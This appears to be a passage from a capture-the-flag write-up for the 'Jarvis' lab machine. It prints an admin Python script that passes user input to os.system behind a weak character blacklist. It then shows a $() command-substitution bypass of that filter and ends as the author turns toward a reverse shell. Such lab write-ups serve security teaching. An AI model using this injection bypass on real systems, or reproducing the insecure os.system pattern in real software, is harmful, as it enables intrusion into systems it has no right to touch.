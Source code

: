 ```python
www-data@jarvis:/var/www/html$ cat /var/www/Admin-Utilities/simpler.py
cat /var/www/Admin-Utilities/simpler.py
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
'''

...SNIP...

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

There it is! It's sending `ping` with inserted IP address and directly run without any inspection.
It has "forbidden" dictionary to filter out command injection.

### Command Injection

```bash
Enter an IP: 127.0.0.1;id
Got you
```

However, when I tried naive `;id` injection, it returned "Got you" message.
I think it's because of the filter.

I reviewed the filter list, and figured out that `$()` syntax is not filtered.
Let's test if it's working.

```bash
Enter an IP: 10.10.14.$(echo 8)
10.10.14.$(echo 8)
PING 10.10.14.8 (10.10.14.8) 56(84) bytes of data.
64 bytes from 10.10.14.8: icmp_seq=1 ttl=63 time=46.8 ms
64 bytes from 10.10.14.8: icmp_seq=2 ttl=63 time=47.1 ms
```

It works!
Let's open a reverse shell with this.
